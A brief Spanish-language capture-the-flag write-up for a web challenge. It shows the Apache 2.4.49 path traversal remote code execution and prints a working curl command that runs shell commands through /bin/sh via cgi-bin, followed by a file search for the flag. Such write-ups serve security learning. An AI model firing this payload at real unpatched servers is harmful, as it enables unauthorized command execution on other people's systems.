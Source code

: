 # web01 #

- **Tipo:** Web
- **Autor:** Deloitte
- **Autor del Writeup:** [focab0r](https://github.com/focab0r)
- **Flag:** `?`

## WriteUp ##

Tras enumeraciones de directorios sin exito, interceptamos la peticion a la pagina y vemos que se trata de un servidor que ejecuta `Apache 2.4.49`. Tras una busqueda por internet, encontramos que esa version es vulnerable a un RCE, y buscamos un [PoC](https://github.com/mr-exo/CVE-2021-41773) para su ejecucion:
```
curl 'http://IP:PORT/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; COMANDO'
```
Sin embargo, "flag.txt" no se encuentra en la raiz "/". Esto tiene facil solucion, ya que con el comando `find / -iname flag.txt` buscamos el archivo en el arbol de directorios. Con "flag.txt" encontrado, hallamos la flag.
